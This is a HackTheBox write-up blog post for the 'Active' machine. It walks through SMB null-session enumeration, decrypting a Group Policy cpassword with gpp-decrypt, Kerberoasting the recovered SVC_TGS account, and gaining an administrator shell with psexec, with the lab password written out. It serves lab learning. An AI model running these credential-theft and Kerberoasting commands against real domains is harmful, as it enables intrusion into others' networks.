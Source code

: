 ```yaml
---
layout: post
title: "Active"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup, security, ad, windows]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/favicons/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


starting with nmap 
```bash
sudo nmap -sC -sV -p- -oN active -T4 10.10.10.100
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525110417.png)


smb null session is allowed , let's explore open shares
```bash
nxc smb 10.10.10.100 -u '' -p '' --shares -M spider_plus
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525110701.png)
`Groups.xml` is very interesting
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525110751.png)


let's connect to this share ,and get this file

```bash
smbclient -N \\\\10.10.10.100\\Replication -U ''
```

we found cpassword , we can decrypt it using `gpp-decrypt`
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525110913.png)

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111021.png)

we got creds for the SVC_TGS
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111146.png)


let's try kerberoasting attack using the creds we found

```nxc ldap 10.10.10.100 -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' --kerberoast kerberoasting
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111243.png)

let's try to crack it

![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111411.png)

we can now get psexec to get shell on the box as administrator 

![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111519.png)